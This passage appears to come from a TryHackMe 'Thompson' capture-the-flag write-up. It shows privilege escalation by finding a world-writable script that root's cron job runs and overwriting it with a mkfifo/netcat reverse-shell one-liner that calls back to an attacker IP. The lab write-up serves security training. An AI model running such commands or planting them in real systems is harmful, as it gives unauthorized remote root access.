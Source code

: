 
## Privilege Escalation

```sh
find / -type f -writable 2>/dev/null | grep -Ev '^(/proc|/snap|/sys|/dev)'
```

We Found `id.sh` is `Writable file` as root after check in /etc/crontab & `Executable file` as jack.  

```sh
ls -la /home/jack
```
`-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh`


```sh
cat /etc/crontab
```

![](/images/TryHackMe/Thompson/crontab.png)

---

Finally let get reverse shell as `root`

```sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.252 9001 >/tmp/f" > /home/jack/id.sh
```

![](/images/TryHackMe/Thompson/reverse-shell.png)

---